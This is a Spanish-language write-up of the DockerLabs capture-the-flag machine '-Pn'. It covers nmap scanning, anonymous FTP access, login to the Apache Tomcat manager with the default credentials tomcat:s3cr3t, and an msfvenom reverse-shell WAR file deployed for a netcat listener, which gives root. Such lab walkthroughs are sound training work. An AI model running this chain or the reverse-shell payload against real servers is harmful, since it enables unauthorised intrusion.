






# [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>


<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **21** y **8080**.
<br>


<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>


<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>


<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>


<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>


<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>


<br>

Si pinchamos nos sale lo siguiente:
<br>


<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>


<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.
<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>


<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>



<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war` <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 
<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>


<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.
<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>


<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>


<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>



<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>



 > El (;) concatena dos comandos.